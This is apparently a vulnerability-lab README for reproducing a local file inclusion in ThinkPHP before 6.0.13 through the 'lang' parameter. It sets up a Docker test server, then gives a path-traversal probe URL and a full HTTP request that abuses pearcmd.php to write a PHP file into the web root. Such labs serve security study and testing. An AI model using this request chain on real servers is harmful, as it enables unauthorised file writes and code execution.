



# ThinkPHP Lang Local File Inclusion

[中文版本(Chinese version)](README.zh-cn.md)

ThinkPHP is an extremely widely used PHP development framework in China. In the version prior to 6.0.13, a local restricted file inclusion issue exists in `lang` parameter if the developer enable multiple language pack.

Although this issue is only allowed to include ".php" file, the attacker is still able to use the "pearcmd.php" to write arbitrary file and execute code in the server.

References:

- <https://tttang.com/archive/1865/>
- <https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp> (about the "pearcmd.php trick")

## Vulnerability Environment

Execute following command to start a server that is developed by ThinkPHP v6.0.12:

```
docker-compose up -d
```

After the server is started, browse the `http://your-ip:8080` to see the default welcome page of ThinkPHP.

## Exploit

Firstly, because the multiple language feature is not enabled by default, you can try to include the `public/index.php` to determine whether the vulnerability exists:

```
http://localhost:8080/?lang=../../../../../public/index
```



The vulnerability exists if the server crashed and a 500 error response comes back.

Then, try to write data through "/usr/local/lib/php/pearcmd.php":

```
GET /?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+shell.php HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

If the server response the output of pearcmd, which means the exploit is successful:



As you can see, the `shell.php` is written in root directory of web:


